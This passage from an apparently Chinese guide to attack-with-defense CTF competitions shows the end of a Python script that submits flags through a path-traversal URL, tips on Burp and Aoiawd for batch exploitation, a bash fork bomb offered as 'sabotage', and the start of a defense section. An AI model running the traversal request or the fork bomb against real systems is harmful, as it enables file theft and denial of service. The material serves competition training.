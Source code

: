 ```

            # r = requests.post(url,headers=headers,data = json.dumps(data))
            r = requests.post(f_url, data = s_f_pay)
            print(r.text)
        time.sleep(r_time * 60)

if __name__ == '__main__' :
    # 这个可以看请况写个循环，遍历出所有ip
    subFlag(10, 172.35.19.11, 80, "/statics/1.php?file=../../../../../../flag", "FUPDSjgifpoejsiJIFPjipojfdsa")

```

#### <a class="reference-link" name="brup%E6%8F%92%E4%BB%B6"></a>brup插件

使用burp提供的burp-requests插件更快的写出poc，安装方法可以百度下，和其他的插件安装方法一致

当找到漏洞利用方法时，可以抓取流量，burp界面空白处右击，选择copy as requests

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01349d3c5f8f85a3e0.png)

直接复制到python脚本里就可以

效果如下

[![](https://p0.ssl.qhimg.com/t01cfbd67f482ef1b7a.png)](https://p0.ssl.qhimg.com/t01cfbd67f482ef1b7a.png)

#### <a class="reference-link" name="Aoiawd%E6%89%B9%E9%87%8F"></a>Aoiawd批量

Aoiawd是安恒实验室研发的一款awd神器，后面单独部分介绍

使用Aoiawd的流量监测功能，一键生成poc，批量拿flag

#### <a class="reference-link" name="%E6%90%85%E5%B1%8E"></a>搅屎

fork炸弹

```
# 参考: https://linux.cn/article-5685-1-rss.html
:()`{`:|:&amp;`}`;:
```



## 防御

防御主要包括三个监控：

文件监控

流量监控
